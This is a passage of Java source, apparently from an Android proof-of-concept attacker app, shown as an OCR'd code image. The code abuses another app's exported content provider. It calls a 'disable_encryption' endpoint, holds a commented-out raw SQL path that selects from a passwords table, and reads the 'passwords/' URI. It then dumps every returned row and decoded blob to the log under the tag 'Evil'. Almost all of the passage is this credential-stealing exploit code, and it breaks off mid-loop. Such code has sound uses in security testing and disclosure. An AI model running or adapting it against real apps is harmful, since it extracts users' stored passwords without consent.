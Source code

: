 ```java
                Uri contentUri1 = Uri.parse(CONTENT_URI_STRING + "disable_encryption");
                Cursor cursor1 = getContentResolver().query(
                        contentUri1, null, null, null, null
                );
                //Execute Sql
                /*
                Uri contentUri = Uri.parse(CONTENT_URI_STRING + "execute_sql/" + "SELECT * FROM passwords");
                Cursor cursor = getContentResolver().query(
                        contentUri, null, null, null, null
                );
                */
                //Get Passwords
                Uri contentUri = Uri.parse(CONTENT_URI_STRING + "passwords/");
                Cursor cursor = getContentResolver().query(
                        contentUri, null, null, null, null
                );
                String[] columnNames = cursor.getColumnNames();
                String blobby = "";
                if (cursor != null) {
                    columnNames = cursor.getColumnNames();

                    try {
                        if (cursor.getCount() == 0) {
                            Log.d("Evil", "No rows returned from query.");
                        }

                        int rowNum = 0;
                        while (cursor.moveToNext()) {
                            rowNum++;
                            StringBuilder rowLog = new StringBuilder();
                            rowLog.append("Row ").append(rowNum).append(": ");

                            for (String col : columnNames) {
                                int idx = cursor.getColumnIndex(col);
                                int type = cursor.getType(idx);
                                switch (type) {
                                    case Cursor.FIELD_TYPE_STRING:
                                        rowLog.append(col).append("=")
                                                .append(cursor.getString(idx)).append("; ");
                                        break;
                                    case Cursor.FIELD_TYPE_INTEGER:
                                        rowLog.append(col).append("=")
                                                .append(cursor.getLong(idx)).append("; ");
                                        break;
                                    case Cursor.FIELD_TYPE_FLOAT:
                                        rowLog.append(col).append("=")
                                                .append(cursor.getDouble(idx)).append("; ");
                                        break;
                                    case Cursor.FIELD_TYPE_BLOB:
                                        byte[] blob = cursor.getBlob(idx);
                                        blobby = new String(blob, StandardCharsets.UTF_8);
                                        rowLog.append(col)
                                                .append(" (BLOB)=")
                                                .append(blobby)
                                                .append("; ");
                                        break;
                                    case Cursor.FIELD_TYPE_NULL:
                                        rowLog.append(col).append("=NULL; ");
                                        break;
                                }
                            }
                            Log.d("Evil", rowLog.toString());
```